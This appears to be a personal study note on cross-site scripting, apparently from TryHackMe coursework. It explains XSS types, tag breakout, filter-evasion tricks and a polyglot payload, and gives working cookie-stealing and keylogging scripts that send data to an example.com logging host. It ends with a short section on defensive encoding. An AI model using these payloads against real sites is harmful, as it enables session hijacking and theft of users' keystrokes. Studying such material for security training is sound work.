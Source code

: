 # XSS (Cross Site Scripting) Attacks

* **author**:: Nathan Acks
* **date**:: 2022-07-11

Types of XSS attacks:

* Reflected (URL-based, no server-side storage)
* Stored
* DOM-based (really client-side)

DOM-based attacks are *client* side - with both reflected and stored XSS, the server is embedding the attack into the page that's being rendered. For DOM-based attacks, it's the *client* that inserts the malicious JavaScript into the page (even if the data was provided by the server). Ask yourself: "How did this get into the page? Did the server put it there (reflected/stored XSS), or did my client put it there (DOM-based XSS)?"

The canonical (but highly annoying) XSS PoC is:

```html
<script>alert('XSS');</script>
```

A much less annoying XSS test is to manipulate the `innerHTML` of page elements:

```html
<script>
	xssTest
		= document.querySelector("h1");
	xssTest.innerHTML = "XSS was here!";
</script>
```

* [Document.querySelector()](https://developer.mozilla.org/en-US/docs/Web/API/Document/querySelector)

## Tips for Writing JavaScript

JavaScript accepts back-ticks as a type of quotation mark, so we actually have three different marks to work with (single quote, double quote, and back-tick).

Sometimes you'll need to break out of a tag that you're being inserted into. Various options:

* Use `">` if you're being inserted into an HTML attribute.
* Use `</pre>` or `</textarea>` for preformatted blocks and text areas.
* Use `';` followed by `;//` for direct JavaScript inserts. (Note that it's only possible to insert `<script/>` tags if the JavaScript you're abusing is being included from a file, as HTML parsers are greedy about the closing `</script>` tag.)

Most regular expressions and filters are only executed in a single pass. Thus, a regular expression that's filtering out `<script>` and `</script>` tags can be circumvented by using `<s<script>cript>` and `</s</script>cript>`. That said, this trick doesn't work for regular expressions that are removing single characters (for example, `<` and `>`).

You can also use the `onload` attribute to pull in JavaScript, though note that this is only functional the first time the page is loaded. This will often require you to close out the preceding attribute (`"`) and *leave off* the trialing `"` of the `onload` attribute in order for everything to work properly.

There's also "polygot" strings which work in a variety of contexts. These have some pretty wild escaping going on; for example, the following (lightly modified from TryHackMe's example) produces an "XSS" alert:

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!><sVg/<sVg/oNloAd=alert('XSS')//>>
```

## Filter Evasion

### Bypass Simple Word Filtering

In general, you can break up strings to get around this.

```javascript
alert("H" + "ello")
```

The `eval()` function can be used to turn strings into function names if a function is filtered.

```javascript
eval("a" + "lert")("Hello")
```

It's also possible (and safer, though if we're breaking into things we probably care a lot less about safety) to use `window[]`.

```javascript
window["a" + "lert"]("Hello")
```

For really heavy filtering, use something nutso like JSFuck.

(Note that things like the JavaScript Obfuscator Tool won't always remove functions and strings, as they tend to be geared more towards thwarting script analysis than bypassing filters.)

Sometimes filters are applied in a case-sensitive fashion. While JavaScript *is* case-sensitive, URL schemes, HTML tag names, and HTML tag attributes are case-*insensitive* (so, `javascript:` is treated the same as `javaSCRIPT:`, `onclick` is treated the same as `ONCLICK`, etc.).

* [JSFuck](http://www.jsfuck.com/)
* [JavaScript Obfuscator Tool](https://obfuscator.io/)

### Using iFrames and Images

Typically XSS attacks work by injecting `<script/>` tags, but it's also possible to inject JavaScript using the `<iframe/>` and `<img/>` tags by setting the `src` attribute to the `javacript:` pseudo-protocol. For example:

```html
<!-- iframe injection -->
<iframe src="javascript:alert('XSS');"/>

<!-- img injection -->
<img src="javascript:alert('XSS');"/>
```

Note, however, that JavaScript loaded in an `<iframe/>` won't have access to the parent page's DOM.

### Fallbacks Requiring User Interaction

Finally, `javascript:` URIs can also be included in anchor(`<a/>`) `href` attributes, as well as `onmouseover` and `onclick` attributes (which can be attached to almost any HTML tag). Getting these attacks to fire requires a user to interact with the modified tag, however.

## Attacks

### Accessing Browser Cookies

```html
<script>
	fetch(
		'https://example.com/log'
			+ '?cookie='
			+ btoa(document.cookie)
	);
</script>
```

### Keylogging

```html
<script>
	document.onkeypress = function(e) {
		fetch(
			'https://example.com/log'
				+ '?cookie='
				+ btoa(document.cookie)
				+ '&keypress='
				+ btoa(e.key)
		);
	}
</script>
```

Adding the user's session cookie here allows us to tell whose keystrokes are whose!

* [Document.cookie](https://developer.mozilla.org/docs/Web/API/Document/cookie)

### Port Scanning

[An example JavaScript port scanner (possibly broken).](https://github.com/aabeling/portscan)

### Website Defacement

You can access elements of the DOM using `document.getElementById("element-id")` or `document.querySelector("#element-id")`. The `querySelector()` method is a bit more flexible (you can use CSS-style selectors here) and should probably be preferred.

To get/set the content of an element, use the `innerHTML` method (to insert HTML directly into the DOM), or alternately `innerText` or `textContent` to set element text *only*.

Note that `<script/>` tags inserted by setting an element's `innerHTML` are *not* executed, however!

## Defense

The key to defending against XSS is really to get your encoding right. User-generated code that's passed off to JavaScript needs to be JavaScript-escaped first. User-generated code that's written into the DOM needs to be HTML-escaped first. Know what the context is of your data, and escape/unescape appropriately when writing data from one context to another!
